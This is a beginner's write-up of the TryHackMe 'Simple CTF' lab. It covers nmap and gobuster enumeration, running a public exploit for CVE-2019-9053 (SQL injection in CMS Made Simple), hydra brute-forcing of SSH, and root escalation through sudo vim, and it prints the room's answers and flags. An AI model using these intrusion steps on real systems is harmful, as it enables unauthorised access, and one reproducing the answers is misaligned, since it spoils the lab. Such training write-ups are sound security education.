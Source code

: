 ```yaml
---
author: Chance Johnson
description: A beginner friendly CTF by MrSeth6797 on TryHackMe.
layout: post
title: Simple CTF
---
```

[Simple CTF](https://tryhackme.com/room/easyctf) is a beginner friendly CTF on TryHackMe by MrSeth6797. I will be using Kali Linux.

### 1. How many services are running under port 1000?
I executed the following Nmap command to scan for both UDP and TCP services on this port:
```
sudo nmap -sS -sU -p1000 10.10.214.207
```

This tells me the following two services are running:
```
1000/tcp filtered      cadlock
1000/udp open|filtered ock
```

**Answer**: 2

### 2. What is running on the higher port?
[By default, Nmap scans the top 1,000 ports](By default, Nmap scans the top 1,000 ports for each scan protocol requested.), so there's a good chance the following command will tell me which service is listening to the highest port number:
```
nmap 10.10.214.207
```

Output:
```
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
2222/tcp open  EtherNetIP-1
```

The scan tells us an [EtherNet/IP](https://en.wikipedia.org/wiki/EtherNet/IP) service is listening on `2222/tcp`. Nmap uses its [`nmap-services`](https://nmap.org/book/nmap-services.html) database to determine which services correspond to which port numbers. As you probably already know, applications can be configured to listen to any desired port number. Therefore, this information is not always reliable.

I'll investigate further with a version detection scan:
```
nmap -sV -p2222 10.10.214.207
```

Output:
```
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

An Nmap [version detection](https://nmap.org/book/man-version-detection.html) scan uses the [`nmap-service-probes`](https://nmap.org/book/nmap-service-probes.html) database to determine what program is listening on a port. As you can see in the output above, Nmap has determined that an SSH server is listening on that port.

**Answer**: ssh

### 3. What's the CVE you're using against the application?
At first, I used the Nmap [vulners](https://raw.githubusercontent.com/vulnersCom/nmap-vulners/master/vulners.nse) script to list CVEs for the services listening on the open ports I had already discovered:
```
sudo nmap -sV -sS -sU -p21,80,2222,1000 --script=vulners 10.10.214.207
```

This produced an extensive list of CVEs, so I decided to go a different route and do some more enumeration.

I'll start by performing a version scan on `80/tcp`:
```
nmap -sV -p80 10.10.214.207
```

Output:
```
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

It appears an Apache HTTP server is listening to this port, so I will use `gobuster` to find some common directories:
```
gobuster dir -u http://10.10.214.207/ -w /usr/share/wordlists/dirb/common.txt
```

The following resources were found:
```
/.htpasswd
/.hta
/.htaccess
/index.html
/robots.txt
/server-status
/simple
```

I opened up Firefox and navigated to `http://10.10.214.207/simple`. It appeared to be an installation page for [CMS Made Simple](https://www.cmsmadesimple.org/). At the bottom of the page there was a version number: `2.2.8`.

A Google search for `cms made simple 2.2.8 cve` lead me to [CVE-2019-9053](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9053).

**Answer**: CVE-2019-9053

### 4. To what kind of vulnerability is the application vulnerable?
CVE-2019-9053 is recorded as an SQL injection vulnerability.

**Answer**: SQLi

### 5. What's the password?
I found [this](https://github.com/e-renna/CVE-2019-9053) Python script online for exploiting the CVE. Using this script, I ran the following command:
```
python3 exploit.py -u http://10.10.214.207/simple/
```

Output:
```
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```

It would appear the found password is a hash of the original password and the salt. This isn't very useful, however it does list the username "mitch".

I'll attempt to login to that SSH server listening on `2222/tcp`:
```
hydra -s 2222 -l mitch -P /usr/share/wordlists/john.lst -t 4 10.10.214.207 ssh
```

The output of this command indicates the password is "secret". 

**Answer**: secret


### 6. Where can you login with the details obtained?
Obviously, the SSH server.

**Answer**: SSH

### 7. What's the user flag?
I logged into the SSH server with the newly found credentials, and found a "user.txt" file. The contents of the file read "G00d j0b, keep up!".

**Answer**: G00d j0b, keep up!

### 8. Is there any other user in the home directory? What's its name?
There was a directory named "sunbath" in the "/home" directory.

**Answer**: sunbath

### 9. What can you leverage to spawn a privileged shell?
I got stuck on this for a while. There weren't any more files in the user's home directory, and I wasn't able to perform many commands as sudo. I finally remembered to list which sudo commands can be performed:
```
sudo -l
```

Output:
```
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

It looks like I can use vim to run commands as the root user.

**Answer**: vim

### 10. What's the root flag?
I ran vim as sudo, and in vim I entered the following:
```
:!ls /root
```

This showed a `flag.txt` file. All that was left to do was print the contents of this file via vim:
```
:!cat /root/flag.txt
```

**Answer**: W3ll d0n3. You made it!


